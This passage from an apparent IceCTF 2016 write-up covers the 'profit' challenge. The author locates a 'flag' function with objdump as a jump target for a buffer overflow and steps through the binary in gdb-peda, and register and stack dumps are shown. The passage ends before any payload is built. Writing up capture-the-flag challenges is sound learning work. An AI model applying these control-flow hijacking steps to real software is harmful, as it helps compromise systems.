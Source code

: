 In any case, we now know what the exploit type is but now we need to figure out two things: how big our buffer is, and also where we need
to jump to. We can easily find out how big our buffer is using `python` and `gdb` but finding where we need to jump is probably easier or
more apparent if we use `objdump`. Let's first figure out where we want to jump:

```zsh
[ctf-xxxx@icectf-shell-2016 /home/profit]$ objdump -D profit | grep flag    
0804850b <flag>:
[ctf-xxxx@icectf-shell-2016 /home/profit]$ 
```

So there is a function called "flag" at 0x0804850b, there is a pretty decent chance it is what we need to jump to but we can confirm this
in `gdb` so lets fire that up:

```zsh
[ctf-xxxx@icectf-shell-2016 /home/profit]$ gdb -q profit 
Reading symbols from profit...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x804859b
gdb-peda$ r
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0xf76f2000 --> 0x1a8da8 
ECX: 0xffef4280 --> 0x1 
EDX: 0xffef42a4 --> 0xf76f2000 --> 0x1a8da8 
ESI: 0x0 
EDI: 0x0 
EBP: 0xffef4268 --> 0x0 
ESP: 0xffef4264 --> 0xffef4280 --> 0x1 
EIP: 0x804859b (<main+14>:	sub    esp,0x4)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048597 <main+10>:	push   ebp
   0x8048598 <main+11>:	mov    ebp,esp
   0x804859a <main+13>:	push   ecx
=> 0x804859b <main+14>:	sub    esp,0x4
   0x804859e <main+17>:	call   0x804855e <start>
   0x80485a3 <main+22>:	mov    eax,0x0
   0x80485a8 <main+27>:	add    esp,0x4
   0x80485ab <main+30>:	pop    ecx
[------------------------------------stack-------------------------------------]
0000| 0xffef4264 --> 0xffef4280 --> 0x1 
0004| 0xffef4268 --> 0x0 
0008| 0xffef426c --> 0xf7562a63 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0012| 0xffef4270 --> 0x80485c0 (<__libc_csu_init>:	push   ebp)
0016| 0xffef4274 --> 0x0 
0020| 0xffef4278 --> 0x0 
0024| 0xffef427c --> 0xf7562a63 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0028| 0xffef4280 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804859b in main ()
gdb-peda$ 
```

